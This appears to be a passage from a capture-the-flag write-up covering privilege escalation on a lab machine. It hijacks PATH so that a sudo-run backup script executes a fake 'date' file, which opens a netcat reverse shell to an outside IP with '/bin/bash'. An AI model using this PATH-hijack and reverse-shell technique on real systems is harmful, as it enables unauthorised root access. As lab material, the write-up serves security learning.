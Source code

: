 *access_backup.sh*
```bash
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

Absolute paths for `gzip` and `date` is not mentioned. 

### Creating a new file 

Going to `/tmp` directory and creating a `date` file with contents

*date*
```bash
nc 10.10.14.33 9001 -e /bin/bash
```

![](/img/previse/Pasted%20image%2020211225192245.png)

And then we add `tmp/` directory to the path

```bash
$ export PATH=tmp:/$PATH
```

Now we run our script

```bash
$ sudo /opt/scripts/access_backup.sh
```

And we get a shell on our reverse tcp listener
![](/img/previse/Pasted%20image%2020211225192210.png)